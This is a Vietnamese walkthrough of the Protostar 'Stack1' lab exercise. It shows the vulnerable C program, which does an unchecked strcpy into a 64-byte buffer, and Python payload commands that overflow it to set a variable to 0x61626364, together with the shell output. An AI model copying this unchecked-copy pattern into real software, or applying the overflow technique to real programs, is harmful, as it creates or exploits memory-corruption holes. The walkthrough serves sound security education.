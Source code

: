 # 2. Stack1  
## Source code  
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
Ta có thể thấy code stack1 có nhiều điểm tương đồng với stack0, điểm khác là ta không còn thấy câu lệnh gets() nữa mà thay vào đó là đoạn code:
```
if bla bla
...
...
strcpy()
```
Trong stack0 thì buffer overflow xảy ra khi ta sử dụng câu lệnh `gets()`, còn trong bài này thì đó là câu lệnh `strcpy()`.
Và ta sẽ input trực tiếp bằng cách dùng cl argument.  
Đầu tiên là thử với input như stack0:
```
user@protostar:/opt/protostar/bin$ python -c "print 'A'*65" > /tmp/payload
user@protostar:/opt/protostar/bin$ ./stack1 $(cat /tmp/payload)
Try again, you got 0x00000041
user@protostar:/opt/protostar/bin$ 
```
Có thể thấy biến modified đã thay đổi giá trị, tiếp theo là thay đổi giá trị của nó thành `0x61626364`.

Đề bài có hint là `Little Edian` vậy nên input vào thay vì là `61 62 63 64` thì sẽ là `64 63 62 61`.  
```
user@protostar:/opt/protostar/bin$ python -c "import struct;print ('A'*64 + struct.pack('I',0x61626364))" > /tmp/payload
user@protostar:/opt/protostar/bin$ ./stack1 $(cat /tmp/payload)
you have correctly got the variable to the right value
user@protostar:/opt/protostar/bin$ 
```
